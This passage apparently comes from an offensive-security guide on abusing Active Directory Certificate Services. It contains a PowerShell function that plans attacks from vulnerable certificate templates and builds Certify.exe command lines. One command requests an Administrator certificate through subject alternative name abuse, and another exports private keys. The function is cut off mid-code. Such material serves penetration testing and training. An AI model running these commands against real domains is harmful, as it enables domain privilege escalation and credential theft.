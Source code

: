 **Tool Explanation:**
- **Security Assessment**: Assess certificate template security
- **Vulnerability Categorization**: Categorize vulnerabilities by risk level
- **Security Recommendations**: Generate security recommendations
- **Template Analysis**: Analyze template configurations
- **Advantages**: Security insights, risk assessment, recommendations
- **Disadvantages**: Complex analysis, requires security knowledge

### 2. Attack Vector Analysis

#### **Certificate Abuse Planning**
```powershell
# Plan certificate abuse attacks
function Plan-CertificateAbuseAttacks {
    param([hashtable]$ADCSResults)
    
    try {
        Write-Host "Planning certificate abuse attacks..." -ForegroundColor Yellow
        Write-Host "=" * 50
        
        $attackPlan = @{
            ImmediateAttacks = @()
            EscalationPaths = @()
            ToolRequirements = @()
            ExecutionSteps = @()
        }
        
        # Analyze vulnerable templates for immediate attacks
        foreach ($template in $ADCSResults.VulnerableTemplates) {
            if ($template.VulnerabilityReason -like "*Enrollee Supplies Subject*") {
                $attackPlan.ImmediateAttacks += @{
                    Template = $template.Name
                    AttackType = "SAN Abuse"
                    Description = "Request certificate with custom subject alternative name"
                    Tool = "Certify.exe"
                    Command = ".\Certify.exe request /ca:CA01.cybercorp.local /template:$($template.Name) /subject:CN=Administrator"
                    Risk = "High - Domain privilege escalation"
                }
            }
            
            if ($template.VulnerabilityReason -like "*Exportable Private Key*") {
                $attackPlan.ImmediateAttacks += @{
                    Template = $template.Name
                    AttackType = "Private Key Extraction"
                    Description = "Extract private key from certificate"
                    Tool = "Certify.exe + OpenSSL"
                    Command = ".\Certify.exe request /ca:CA01.cybercorp.local /template:$($template.Name) /export"
                    Risk = "Medium - Credential theft"
                }
            }
        }
        
        # Plan privilege escalation paths
        foreach ($attack in $attackPlan.ImmediateAttacks) {
            if ($attack.AttackType -eq "SAN Abuse") {
                $attackPlan.EscalationPaths += @{
                    Step = 1
                    Action = "Request certificate with Administrator SAN"
                    Tool = $attack.Tool
                    Command = $attack.Command
                    ExpectedResult = "Certificate with Administrator privileges"
                }
```